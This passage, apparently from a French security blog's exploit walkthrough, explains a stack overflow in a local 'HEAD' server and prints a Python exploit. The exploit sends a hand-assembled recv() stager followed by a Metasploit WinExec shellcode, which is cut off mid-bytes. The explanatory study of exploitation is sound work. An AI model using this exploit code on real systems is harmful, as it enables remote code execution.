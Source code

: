 On voit ici que l'on atteint bien notre instruction, preuve que la pile est exécutable et qu'on pourra mettre notre shellcode :)  

La technique que j'ai choisi consiste à envoyer un stager qui va profiter du fait que l'adresse de *recv()* est disponible et que le descripteur de socket est dans un registre.  

Le stager ne fait qu'appeler *recv()* pour recevoir un second shellcode qui sera écrit sur la stack puis sautera dessus.  

Le second shellcode a (de mémoire) été généré par Metasploit (le genre *WinExec*) et a l'avantage d'être facilement modifiable (chaîne du programme à exécuter en fin de shellcode).  

Je vous épargne les explications détaillées du code assembleur mais si les shellcodes vous intéressent vous pouvez aussi lire mon article [Solution du Cyber-Security Challenge Australia 2014 (Shellcoding)](http://devloop.users.sourceforge.net/index.php?article116/solution-du-cyber-security-challenge-australia-2014-shellcoding).  

Pour obtenir les opcodes des instructions assembleur j'ai utilisé *rasm2* (qui fait partie de *radare2*).  

```python
import socket
import struct
from binascii import hexlify
from time import sleep

TARGET = '127.0.0.1'
PORT = 8008

jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll
sock = socket.socket()
sock.connect((TARGET, PORT))

print("Sending first stage...")
shellcode = "/90"          # change to /CC for debuging
shellcode += "EB32"        # jmp +52 (jump to relative call)
shellcode += "59"          # pop ecx (stack address)
shellcode += "89DA"        # mov edx, ebx (socket)
shellcode += "83EC20"      # sub esp, 32
shellcode += "57"          # push edi (0 = recv flags)
shellcode += "6BDB05"      # imul ebx, 5 (ebx = 620)
shellcode += "53"          # push ebx (recv length)
shellcode += "89CB"        # mov ebx, ecx (ecx is fucked by recv, keep address here)
shellcode += "51"          # push ecx (recv buffer)
shellcode += "52"          # push edx
shellcode += "B8AA781D40"  # mov eax, 0x401D78AA
shellcode += "C1E808"      # shr eax, 8 (eax = recv)
shellcode += "FFD0"        # call eax
shellcode += "FFE3"        # jmp ebx
padding = 73 - len(shellcode)
print(padding, "characters of padding were added")
shellcode += "C" * padding

buff2 = "90" * 13
buff2 += "E8C9FFFFFF" # call -50

buff = "HEAD " + shellcode + hexlify(struct.pack("I", jmp_eax)).decode() + buff2

sock.send(buff.encode())

sleep(.1)
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
```